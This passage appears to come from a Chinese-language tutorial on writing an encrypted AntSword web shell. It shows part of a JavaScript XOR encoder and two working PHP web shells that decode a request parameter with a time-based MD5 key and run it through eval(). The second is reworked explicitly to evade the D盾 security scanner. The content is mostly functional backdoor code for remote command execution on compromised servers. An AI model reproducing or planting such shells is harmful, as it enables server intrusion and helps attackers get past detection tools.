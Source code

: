 ```
      let cipher=Buffer.from(data.toString(), 'base64').toString();
      cipher = cipher.split("").map(t => t.charCodeAt(0));
      for (let i = 0; i < cipher.length; i++) {
          cipher[i] = cipher[i] ^ key[i % 32]
      }
      cipher=cipher.map(t=>String.fromCharCode(t)).join("")
      return cipher;
    }
    return xor(data);
  }
}
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900385664-cf19cd11-5cbd-4e78-9210-d78d2502bcdb.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900385848-5fb2c5c8-9bf8-4804-a48d-15f375627b13.png)

但是发现遇到中文会乱码，所以仅作为一个参考吧

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900385963-525e7d95-c6dd-4725-9f2e-1a67f6ce375f.png)

### 服务端

原型

```
<?php
date_default_timezone_set("PRC");
@$post=base64_decode($_REQUEST['yzddmr6']);
$key=md5(date("Y-m-d H:i",time()));
for($i=0;$i<strlen($post);$i++){
    $post[$i] = $post[$i] ^ $key[$i%32];
}
eval($post);
?>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900386075-e6acd59f-ebc4-456c-91f4-91d0117dcf3c.png)

D盾4级，稍微处理一下让他免杀

```
<?php
date_default_timezone_set("PRC");
$key=md5(date("Y-m-d H:i",time()));
class TEST{
    function encode($key){
    @$post=base64_decode($_REQUEST['test']);
    for($i=0;$i<strlen($post);$i++){$post[$i] = $post[$i] ^ $key[$i%32];}
    return $post;}
    function ant($data)
    {return eval($this->encode("$data"));}
}
$test=new TEST;
$test->ant($key);
?>
```
